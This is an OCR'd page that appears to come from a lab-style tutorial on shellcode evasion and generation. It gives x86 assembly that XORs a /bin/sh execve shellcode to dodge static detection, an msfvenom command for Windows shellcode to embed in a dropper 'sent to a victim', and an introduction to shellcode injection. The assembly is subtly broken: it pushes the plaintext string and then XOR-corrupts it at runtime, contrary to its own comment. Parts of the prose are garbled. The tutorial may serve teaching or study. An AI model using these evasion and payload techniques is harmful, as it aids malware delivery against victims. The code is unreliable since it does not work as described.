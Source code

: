 - **Obfuscate Instructions**: Use techniques like XOR encoding to hide the shellcode.
- **Inline Decoding**: Add decoding logic in the shellcode to decrypt itself at runtime.

Example (simple XOR encoding):

```
section .text
global _start
_start:
xor eax, eax
push eax
push 0x68732f6e
push 0x69622f2f

; XOR-encoded "/bin/sh" with key 0xAA
xor byte [esp], 0xAA
xor byte [esp+1], 0xAA
xor byte [esp+2], 0xAA
xor byte [esp+3], 0xAA
xor byte [esp+4], 0xAA
xor byte [esp+5], 0xAA
xor byte [esp+6], 0xAA

mov ebx, esp
xor ecx, ecx
xor edx, edx
mov al, 0x0b
int 0x80
```

This technique reduces the likelihood of static detection since the shellcode is obfuscated.

**Generate Shellcode**

in this task continue working with shellcode demonstrate to generate and execute shellcode using public tools such as the **Metasploit** framework.

**Generate shellcode using Public Tools**

Shellcode can be generated for a specific format with a particular programming language. This depends on you. For example, if your **dropper**, which is **the main exe File**, contains the shellcode that will be sent to a victim, and is written in C, then we need to generate a shellcode format that works in C.

The advantage of generating shellcode via public tools is that we don’t need to craft a custom shellcode from scratch, and we don’t even need to be an expert in assembly language. Most public C2 frameworks provide their own shellcode generator compatible with the C2 platform. Of course, the drawback is that most, or we can say all, generated shellcodes are well-known to ay vendors and can be easily detected. convenient for

We will be creating a shellcode that runs the **calc.exe** application.

> **Msfvenom –a x86 –platform windows –p windows/exec cmd=calc.exe –f c**

**Shellcode injection**

Hackers inject shellcode into a running or new thread and process using various techniques. Shellcode injection techniques modify the program’s execution flow to update registers and functions of the program to execute the attacker’s own code.
